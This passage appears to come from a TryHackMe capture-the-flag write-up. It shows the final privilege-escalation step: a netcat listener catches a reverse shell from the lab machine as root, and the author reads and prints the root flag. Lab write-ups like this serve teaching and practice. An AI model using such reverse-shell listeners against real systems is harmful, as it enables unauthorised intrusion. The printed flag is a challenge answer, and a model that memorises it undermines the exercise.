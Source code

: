 Save the file, open a netcat listener in another terminal and wait for it to connect.

```r
nc -nvlp 4321                                                                      
listening on [any] 4321 ...
connect to [10.6.42.185] from (UNKNOWN) [10.10.241.125] 42146
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# ls -l
total 8
-rw-r--r-- 1 root root   37 Mar 13  2023 root.txt
drwx------ 3 root root 4096 Aug 11  2022 snap
# cat flag.txt	
cat: flag.txt: No such file or directory
# cat root.txt
THM{v@lley_0f_th3_sh@d0w_0f_pr1v3sc}
```
Found root.txt: ``THM{v@lley_0f_th3_sh@d0w_0f_pr1v3sc}``

